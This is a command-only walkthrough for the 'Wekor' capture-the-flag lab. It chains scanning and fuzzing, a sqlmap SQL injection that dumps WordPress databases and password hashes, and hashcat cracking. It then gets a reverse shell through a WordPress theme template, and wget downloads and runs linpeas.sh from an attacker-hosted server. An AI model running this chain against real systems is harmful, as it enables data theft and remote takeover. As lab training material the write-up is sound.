 # Wekor - Medium

```shell
sudo vim /etc/hosts
#map ip to wekor.thm

nmap -T4 -p- -A -Pn -v wekor.thm

feroxbuster -u http://wekor.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500

sudo wfuzz -c -f sub-fighter -u "http://wekor.thm" -H "Host: FUZZ.wekor.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50

sudo wfuzz -c -f sub-fighter -u "http://wekor.thm" -H "Host: FUZZ.wekor.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 --hh 23

sudo vim /etc/hosts
#add site.wekor.thm

feroxbuster -u http://site.wekor.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500

cmseek
#check wordpress directory

#capture the coupon code input request
#save request to a file
sqlmap -r it_cart.req --dbs

sqlmap -r it_cart.req -D wordpress --dump-all

#dump table with hashes
sqlmap -r it_cart.req -D wordpress --dump -T wp_users

#crack hashes
hashcat -a 0 -m 400 hashes.txt /usr/share/wordlists/kaonashi.txt

#log into wordpress
#and use 404 template to get reverse shell

nc -nvlp 4444
#we get reverse shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

#in attacker machine
python3 -m http.server

#in reverse shell
cd /tmp

wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#check internal services
ss -ltnp

```